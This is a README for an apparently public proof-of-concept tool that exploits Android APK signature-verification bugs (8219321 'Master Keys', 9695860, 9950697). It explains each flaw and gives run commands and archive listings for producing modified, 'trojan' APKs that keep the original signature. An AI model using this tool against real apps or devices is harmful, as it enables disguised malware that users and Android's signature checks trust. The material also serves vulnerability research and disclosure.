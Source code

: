 Zip File Arbitrage
===================

This project includes a proof of concept for Android bug 8219321, 9695860, and 9950697
## Android bug 9950697

This bug is the newest and also the most exploitable.  ZipArbitrage uses this bug by default.  General idea here is: it was assumed that the length of the filename (and the filename) is the same in both the local file header as well as the central directory.  Description of its workings [here](http://www.saurik.com/id/19).  

This bug is a bit more limited 
   - Files must already exist in original APK
   - Filename + original filelength < 64K
   - New fileLength < original filelength 


## Android bug 9695860

Jay Saurik found a very nice way to utilize bug 9695860. He describes it far better than I could [here](http://www.saurik.com/id/18). I did not implement the advanced interleaving that he mentions here, but I did implement the ability to have more or less entries in the trojan app.  There are basically no limitations with this exploit.  In addition, this bug is patched on way less devices than AndroidMasterKeys.

The ```--9695860``` switch makes this tool use bug 9695860.

Run it as:
```
java -jar bin/AndroidMasterKeys.jar --9695860 Orig.apk modifiedAPK.apk
```


## Android bug 8219321 aka Android Master Keys


This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidMasterKeys.jar --8219321 Orig.apk modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
